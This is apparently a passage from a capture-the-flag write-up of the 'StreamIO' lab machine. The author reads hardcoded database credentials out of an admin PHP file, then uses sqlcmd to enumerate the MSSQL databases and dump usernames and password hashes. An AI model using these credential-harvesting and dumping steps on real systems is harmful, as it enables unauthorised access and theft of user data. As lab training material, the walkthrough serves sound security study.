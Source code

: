 
```
:\inetpub\streamio.htb\admin>type index.php
type index.php
<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
        header('HTTP/1.1 403 Forbidden');
        die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
```

db_admin:B1@hx31234567890

now we should connect to the MS SQL database to dump the data.
we first upgrade to powershell using the following command:

```
powershell
```

then we start dumping the database:

We need an application to connect to the MSSQL databases, so we search on Google for how to connect to MSSQL databases and find this article: https://stackoverflow.com/questions/22552102/how-to-connect-to-sql-server-from-command-prompt-with-windows-authentication which states that the SQLCMD executable can be used.

Using this application we attempt to retrieve the current database name and all the other database names.

```
sqlcmd -S "(local)" -U db_admin -P "B1@hx31234567890" -Q "SELECT DB_NAME(); SELECT name FROM master..sysdatabases;"
```


then we list the tables:

```
sqlcmd -S "(local)" -U db_admin -P "B1@hx31234567890" -Q "SELECT name FROM streamio_backup..sysobjects WHERE xtype = 'U';"
```


then, we dump the database:

```
sqlcmd -S "(local)" -U db_admin -P "B1@hx31234567890" -Q "USE streamio_backup; SELECT username, password FROM users;"
```



and we got the following :

```
username        | password hash
----------------|----------------------------------
nikk37          | 389d14cb8e4e9b94b137deb1caf0612a
yoshihide       | b779ba15cedfd22a023c4d8bcf5f2332
James           | c660060492d9edcaa8332d89c99c9239
Theodore        | 925e5408ecb67aea449373d668b7359e
Samantha        | 083ffae904143c4796e464dac33c1f7d
Lauren          | 08344b85b329d7efd611b7a7743e8a09
William         | d62be0dc82071bccc1322d64ec5b6c51
Sabrina         | f87d3c0d6c8fd686aacc6627f1f493a5

```
